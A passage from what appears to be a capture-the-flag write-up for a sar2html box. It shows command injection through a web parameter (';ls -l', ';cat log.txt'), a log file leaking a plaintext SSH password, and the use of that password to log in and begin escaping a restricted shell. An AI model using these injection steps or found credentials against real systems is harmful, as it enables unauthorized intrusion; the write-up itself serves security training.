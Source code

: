 
Command `;ls -l`
~~~
total 116
-rwxr-xr-x 1 www-data www-data 53430 Aug 22  2019 index.php
-rwxr-xr-x 1 www-data www-data   716 Aug 21  2019 log.txt
-rwxr-xr-x 1 www-data www-data 53165 Mar 19  2019 sar2html
drwxr-xr-x 3 www-data www-data  4096 Aug 22  2019 sarFILE
~~~


Command `;cat log.txt`
~~~
Aug 20 11:16:26 parrot sshd[2443]: Server listening on 0.0.0.0 port 22.
Aug 20 11:16:26 parrot sshd[2443]: Server listening on 0.0.0.0 port 22.
Aug 20 11:16:26 parrot sshd[2443]: Server listening on :: port 22.
Aug 20 11:16:26 parrot sshd[2443]: Server listening on :: port 22.
Aug 20 11:16:35 parrot sshd[2451]: Accepted password for basterd from 10.1.1.1 port 49824 ssh2 #pass: superduperp@$$
Aug 20 11:16:35 parrot sshd[2451]: Accepted password for basterd from 10.1.1.1 port 49824 ssh2 #pass: superduperp@$$
Aug 20 11:16:35 parrot sshd[2451]: pam_unix(sshd:session): session opened for user pentest by (uid=0)
Aug 20 11:16:35 parrot sshd[2451]: pam_unix(sshd:session): session opened for user pentest by (uid=0)
Aug 20 11:16:36 parrot sshd[2466]: Received disconnect from 10.10.170.50 port 49824:11: disconnected by user
Aug 20 11:16:36 parrot sshd[2466]: Received disconnect from 10.10.170.50 port 49824:11: disconnected by user
Aug 20 11:16:36 parrot sshd[2466]: Disconnected from user pentest 10.10.170.50 port 49824
Aug 20 11:16:36 parrot sshd[2466]: Disconnected from user pentest 10.10.170.50 port 49824
Aug 20 11:16:36 parrot sshd[2451]: pam_unix(sshd:session): session closed for user pentest
Aug 20 11:16:36 parrot sshd[2451]: pam_unix(sshd:session): session closed for user pentest
Aug 20 12:24:38 parrot sshd[2443]: Received signal 15; terminating.
Aug 20 12:24:38 parrot sshd[2443]: Received signal 15; terminating.
~~~

Let's try to connect over ssh (running on port `55007`) with:
* username: `basterd`
* password: `superduperp@$$`

It works, we now have a ssh access.

Answer: `log.txt`


## [Task 1] Questions #1

You can complete this with manual enumeration, but do it as you wish

## #1 - Where was the other users pass stored(no extension, just the name)?

We are now connected over SSH with a customized shell. Let's escape it:
